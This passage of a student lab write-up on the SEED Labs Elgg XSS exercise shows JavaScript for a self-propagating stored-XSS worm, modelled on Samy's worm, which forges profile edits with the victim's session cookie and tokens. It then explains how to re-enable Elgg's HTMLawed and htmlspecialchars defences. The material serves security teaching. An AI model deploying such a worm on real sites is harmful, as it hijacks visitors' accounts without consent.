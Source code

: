 ```js
ff.setRequestHeader("Connection","keep-alive");
ff.setRequestHeader("Cookie",document.cookie);
ff.setRequestHeader("Content-Type","application/x-www-form-urlencoded");

ff.setRequestHeader("Referer","http://www.xsslabelgg.com/profile/".concat(elgg.session.user["username"]).concat("/edit"));

params = "__elgg_ts=".concat(ts)
         .concat("&__elgg_token=").concat(token)
         .concat("&description=User-11-is-great")
         .concat(escape(selfProp))
         .concat("&name=").concat(elgg.session.user["username"])
         .concat("&accesslevel[description]=2&guid=").concat(elgg.session.user["guid"]);

ff.send(params);
```

- The `escape()` function converts the `inner strings` to `URLencoding` for http transfer. 
- Now when a user views the profile of user11, 
- the user's account will have its 'about me' section set to "User-11-is-great". 
- Also the code itself will be copied to the user's page. 
- Also now since the code is in the user's page, whenever a user views the account of this user, the code will get executed and the new user will also have his account modified. 
- The add friend exploit can also e added to the above code as a new `XMLHttpRequest` part. 
- That code will become the exact replica of the famous Samy's worm attack of 2005.

---

## Task 7 : Countermeasures
- Elgg have a built in countermeasures to defend XSS attack. 
  - a custom built security plugin `HTMLawed 1.8` on the Elgg web application which on activation
  - validates the user input and removes the tags from the input. 
  - This specific plugin is registered to the function `filter_tags` in the `elgg/ engine/lib/input.php` file. 
  - The countermeasures have been deactivated and commented out to make the attack work. 
    - To turn on the countermeasure, login to the application as admin, goto `administration -> plugins`, and select security and spam in the dropdown menu. The `HTMLawed 1.8 plugin` is below. This can now be activated. 


- another built-in PHP method called `htmlspecialchars()`
  - to encode the special characters in the user input, such as encoding `"<" to &lt`, `">" to &gt;`, etc. 
  - Go to the directory `elgg/views/default/output` and find the function call `htmlspecialchars` in `text.php, tagcloud.php, tags.php, access.php, tag.php, friendlytime.php, url.php, dropdown.php, email.php` and `confirmlink.php` files. 
  - Uncomment the corresponding `htmlspecialchars` function calls in each file.

---

The above was a detailed description of an XSS attack taking examples from the real world Samy's Worm attack.

The above is a documentation of a lab experiment by the name XSS attack lab (Elgg) from publicly available seed labs by Syracuse University.

Seed Labs Copyright © Wenliang Du, Syracuse University. 
I do not own any software mentioned in the above document.

---
.